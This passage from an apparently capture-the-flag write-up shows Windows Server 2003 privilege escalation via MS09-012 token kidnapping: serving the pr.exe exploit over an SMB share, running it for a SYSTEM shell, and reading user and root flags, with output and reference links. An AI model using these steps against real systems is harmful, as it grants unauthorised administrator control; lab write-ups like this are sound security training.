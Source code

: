 
4. None of the exploits are giving anything of use. Googling about 'windows 2003 privilege escalation' and we find MS09-012,
   Privelege Escalation via Token Kidnapping.

   Setup a local SMB Server again and try the exploit:

   [root:/srv/pub-share]# smbserver.py share .
   [root:/srv/pub-share]# cp /opt/windows-kernel-exploits/MS09-012/pr.exe .

   C:\Documents and Settings> //10.10.14.8/share/pr.exe "whoami"
     /xxoo/-->Build&&Change By p
     /xxoo/-->This exploit gives you a Local System shell
     /xxoo/-->Got WMI process Pid: 1756
     begin to try
     /xxoo/-->Found token SYSTEM
     /xxoo/-->Command:whoami
      nt authority\system

   It works, we are nt authority\system! Grab user- and root.txt

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Lakis\Desktop\user.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1756
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Lakis\Desktop\user.txt
        700c5dc163014e22b3e408f8703f67d1

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Administrator\Desktop\root.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 3564
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Administrator\Desktop\root.txt
        aa4beed1c0584445ab463a6747bd06e9


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

MS09-012:
  https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e
  https://www.exploit-db.com/exploits/6705
